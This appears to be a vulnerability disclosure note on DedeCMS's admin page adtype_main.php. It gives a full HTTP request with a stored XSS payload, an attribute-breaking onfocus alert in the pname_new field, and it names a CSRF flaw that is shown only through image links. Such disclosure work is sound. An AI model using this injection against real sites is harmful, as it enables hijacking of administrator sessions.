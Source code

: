 

## 1. adtype_main.php XSS漏洞

```
POST /dede/adtype_main.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 107
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/dede/adtype_main.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=ju8br1crnd6r1t5n15mareo4co; _csrf_name_f85ab2bd=68c8acd29961e1819fd253926afea12f; _csrf_name_f85ab2bd1BH21ANI1AGD297L1FF21LN02BGE1DNG=c8b36315a6b54bc1; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=546fad3334d3b477; DedeLoginTime=1713149620; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=dd81cc48d7edab74; ENV_GOBACK_URL=%2Fdede%2Fsys_admin_user.php
Connection: close

dopost=save&idend=0&pname_new=test" onfocus="javascript:alert(1)"&check_new=1&imageField=%E7%A1%AE%E5%AE%9A
```



![adtype_main_xss](E:\笔记\web后端\PHP\DEDECMS\114-CSRF-XSS.assets\adtype_main_xss.jpg)

## 2. adtype_main.php CSRF漏洞

![image-20240415110639336](E:\笔记\web后端\PHP\DEDECMS\114-CSRF-XSS.assets\image-20240415110639336.png)

![image-20240415110708632](E:\笔记\web后端\PHP\DEDECMS\114-CSRF-XSS.assets\image-20240415110708632.png)

![image-20240415110723253](E:\笔记\web后端\PHP\DEDECMS\114-CSRF-XSS.assets\image-20240415110723253.png)



